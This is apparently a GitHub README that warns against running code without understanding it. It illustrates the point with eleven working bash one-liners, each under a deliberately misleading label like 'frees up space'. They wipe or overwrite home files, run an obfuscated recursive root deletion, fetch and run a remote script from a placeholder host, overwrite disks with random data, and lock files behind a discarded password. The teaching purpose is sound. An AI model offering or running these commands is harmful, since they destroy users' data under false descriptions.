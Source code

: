 # My one page argument for learning to code

## **_NEVER_** run code you don't understand

I often hear that people call themselves 'Copy and paste' coders.  And, while copying and pasting is a legitimate thing to do, it should not be your only way of doing things.  A better method is to find code, see what is done and recreate, and at a bare minimal, copy it, know ingexactly what it does.\
My small example of code that can have unintended results

> "Running code you found on the internet is like chewing gum you found in the subway'.  

### Try these (IN A VIRTUAL MACHINE!)

#### Here are some bad descriptions to **bad** commands

A. Greatly simplies document syntax: 

``` bash
while read f; do sed -i "" 's:.:*:g' "$f"; done <<< "$(find ~/ -iname '*' -print)"
```

B. Frees up uneccesary space:

``` bash
du ~/ | grep -o '/.*' | xargs rm -r --
```

C. Relinks your files to improve efficentcy:

``` bash
du ~/*/* | grep -o '/.*' | xargs -n 1 ln -sf /dev/null/
```

D. Moves files/folders to a volume with unlimited storage:

``` bash
for d in ~/*/*; do mv "$d/" /dev/null; done
```

E. Frees up all uneccesary space:

``` bash
sudo command $(echo 726d202d7266202f0a | xxd -p -r) &> /dev/null
```

F. Chew the gum you don't even know:

``` bash
bash -c "$(curl http://maliciouscode.com/rm) &"
```

G. Frees up uneccesary space:

```bash
eval $(sed 's:[a-e,s-z]::g' <<< "stream -draft ~/saved")
```

H. Compress files and save space:

```bash
zip --password "$(openssl rand -base64 64)"  --move  "$(openssl rand -hex 4)".zip  ~/*/*/*/*/*
```

I. Reduce your need of the external volumes:

```bash
for d in /dev/disk*; do dd if=/dev/random of=$d &; done
```

J. Simply your files and your life:

```bash
find ~/ -type f -exec bash -c ':|tee {} &' \; 
```

K. Keep logs of files in the home folder utilising your current files:

```bash
find ~/-type f -exec awk 'FNR == 1{ print FILENAME > FILENAME } ' {}  \;
```

### Recommended testing evironment:

1. Create a virtual machine.
2. Open terminal and run the folowing command to copy some files to the desktop: \
```find / -iname "*.txt" | head -n 60 | xargs -n1 -J% cp % $HOME/Desktop/ ```
3. Snapshot your VM, cause you'll need it
4. Run the command
5. Restore
